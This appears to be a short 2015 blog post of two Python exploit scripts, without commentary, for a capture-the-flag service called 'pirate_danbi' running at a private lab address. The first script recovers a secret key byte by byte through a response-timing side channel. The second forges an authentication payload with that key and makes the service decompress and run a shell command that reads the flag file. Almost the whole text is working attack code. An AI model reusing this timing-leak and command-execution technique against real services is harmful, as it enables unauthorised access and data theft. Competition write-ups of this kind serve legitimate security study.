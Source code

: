 ```yaml
---
layout: post
title: "pirate_danbi exp"
date: 2015-09-10 16:27:14 +0800
comments: true
categories: 
---
```


###0x00 read_key
	from socket import *
	from time import *


	ip = "192.168.56.101"
	port = 6666

	def xor(a,b):
		return chr(a^b)


	def p(a1, rev):
		r = socket(AF_INET, SOCK_STREAM)
		r.connect((ip,port))
		bz2 = "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAa".decode('hex')
		buf  = ''
		buf += "\x01\x00\x10"
		key =  ("aaaabbbb" + 'c'*(7-len(rev)) + chr(a1) + ''.join([xor(ord(i), len(rev)+1) for i in rev]))
		buf += key
		
		buf += "\x02\x00"
		buf += chr(len(bz2)) 
		buf += bz2

		buf +="\x03\x00\x00"*100000

		buf +="\x00\x00\x00"
		start = time()
		r.send(buf)
		r.recv(1024)
		end = time()
		#print ( end - start ) * 100
		if ( end - start ) * 100 > 20:
			return xor(len(rev) + 1, a1)
		else:
			return 'kkkk'
		

	rev = ''
	for j in range(8):
		for i in range(256):
			res = p(i, rev) 
			if res == 'kkkk':
				pass
			else:
				rev = (res + rev)
				break
		print '-'
		print rev.encode("hex")

	print rev.encode("hex")

###0x01 read_flag
	from bz2 import *
	from socket import *


	ip = '192.168.56.101'
	port = 7777

	def xor(a,b):
		return chr(a ^ b)



	def gen():
		key = '\x88\xfe\xdd\xa0\x20\x49\x88\x20'
		out = 'YO_DANBI_CREW_IN_THE_HOUSE.\x00'
		for i in range(32 - len(out)):
			out += '\x01'
		pay = ['\x20' for i in range(32)]
		for i in range(8):
			pay[24 + i] =  xor(ord(key[i]), ord(out[24 + i]))
		for i in range(3):
			for j in range(8):
				pay [(2-i)*8 + j ] = xor( (ord(out[(2-i)*8 + j ]) - ord(key[j]))&0xff , ord(pay[(3 - i) * 8 + j]) )
		return ''.join(pay)


	#r = remote(ip, port)
	r = socket(AF_INET, SOCK_STREAM)
	r.connect((ip, port))
	r.send("\x01\x00\x20")
	paya = gen()
	r.send(paya)

	r.send('\x04\x00\x00')   #auth

	cont = compress("cat /home/pirate_danbi/flag\n")
	r.send('\x02\x00' + chr(len(cont)) + cont)    #sava to bz2 file

	r.send('\x03\x00\x00')   #decompress


	r.send('\x05\x00\x00')   #exec
	r.send('\x00\x00\x00')
	print r.recv(1024)



